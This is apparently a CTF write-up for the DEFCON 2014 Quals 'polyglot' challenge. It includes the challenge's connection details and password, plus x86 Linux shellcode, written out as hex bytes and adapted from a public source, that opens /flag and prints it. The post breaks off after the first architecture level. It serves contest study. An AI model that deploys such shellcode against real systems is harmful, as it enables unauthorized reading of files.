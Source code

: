 ```yaml
---
layout: post
title: "DEFCON 2014 Quals : polyglot"
description: ""
category: writeups
tags:
- defconquals
- defconquals2014
- 2014
- gynophage
- writeup
---
```



<a href="polyglot"></a>

### Gynophage 4 - Polyglot

    Just open /flag, and write it to stdout. How hard could it be?

    polyglot_9d64fa98df6ee55e1a5baf0a170d3367.2014.shallweplayaga.me 30000 

    Password: w0rk_tHaT_tAlEnTeD_t0nGu3

When we connect and supply the password, we see

    Give me shellcode.  You have up to 0x1000 bytes.  All GPRs are 0.  PC is 0x41000000.  SP is 0x42000000.

If we send garbage, we see
    
    Throwing shellcode against linux26-x86.(http://services.2014.shallweplayaga.me/polyglot_9d64fa98df6ee55e1a5baf0a170d3367)

Then,

    Didn't send back the right value.  Fail.

Our objective was to print out `/flag` on each target machine. We found [some shellcode to print out a file](http://www.shell-storm.org/shellcode/files/shellcode-73.php), and modified it to print `/flag` instead. 

    "\x31\xc0\x31\xdb\x31\xc9\x31\xd2"+\
    "\xeb\x32\x5b\xb0\x05\x31\xc9\xcd"+\
    "\x80\x89\xc6\xeb\x06\xb0\x01\x31"+\
    "\xdb\xcd\x80\x89\xf3\xb0\x03\x83"+\
    "\xec\x01\x8d\x0c\x24\xb2\x01\xcd"+\
    "\x80\x31\xdb\x39\xc3\x74\xe6\xb0"+\
    "\x04\xb3\x01\xb2\x01\xcd\x80\x83"+\
    "\xc4\x01\xeb\xdf\xe8\xc9\xff\xff"+\
    "\xff/flag\x00\x00"

If we send this shellcode raw to the service, we advance to the next level:

    Throwing shellcode against linux26-armel.(http://services.2014.shallweplayaga.me/polyglot_6a3875ce36a55889427542903cd43893)

